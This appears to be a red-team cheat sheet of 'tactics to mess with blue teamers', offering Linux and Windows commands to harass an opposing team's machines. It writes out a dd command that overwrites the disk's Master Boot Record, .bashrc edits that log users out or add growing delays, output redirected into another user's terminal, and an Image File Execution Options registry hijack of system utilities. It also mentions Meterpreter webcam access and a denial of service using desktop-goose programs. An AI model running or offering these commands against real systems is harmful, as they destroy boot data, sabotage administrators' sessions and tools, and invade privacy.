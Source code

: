 A small collection of tactics to mess with blue teamers in live environments...

# Linux

```shell
xrandr -o inverted # Flip X11 desktop session upside down.

tty # Retrieve TTY number (for redirection)
w   # Gives you you /dev/pts numbers

dd if=nyan.mbr of=/dev/sda # NyanMBR necessary, overwrites Master Boot Recrd with Nyancat animation. The MBR image can be found in this repository: https://github.com/brainsmoke/nyanmbr

echo exit >> ~/.bashrc # Add a logout to the login script

<animation or random noise> > /dev/pts/[pts-num-of-opponent] # Redirect output to another user's terminal

echo "echo \"sleep 1;\" >> ~/.bashrc">> ~/.bashrc # Add a longer sleep to their terminal startup every time they login. 

export PROMPT_CMD="clear && echo 'You didn't say the magic word!'"
```

# Windows
```powershell
start C:\Windows\Resources\Ease of Access Themes\hc1.theme # Start the Windows high-contrast theme

reg add "HKCU\Control Panel\Mouse" /v "MouseSpeed" /t REG_SZ /d "VALUE" /f # Modify mouse speed

reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<CRITICAL SYSTEM UTILITY OF YOUR CHOICE>" /v "Debugger" /t REG_SZ /d "\"<GOOFY IMAGE FILE OR OTHER>" /z" /f # Replaces the executables with a "debugger"... or a weird image of your choosing. 

Desktop Goose 👀
```

Persistence with [[Meterpreter]] affords many options like `webcam_chat`. 

***DoS WITH GEESE***
You can download and install the [Desktop Goose](https://samperson.itch.io/desktop-goose/download/eyJleHBpcmVzIjoxNzM5NDE2Mjg0LCJpZCI6NTU4MjE4fQ%3d%3d.RdlBCXbB6sF2fBp3tD9%2f19MhrZs%3d) on Windows and Mac. Running ten or more Desktop Geese may crash the adversary's computer.
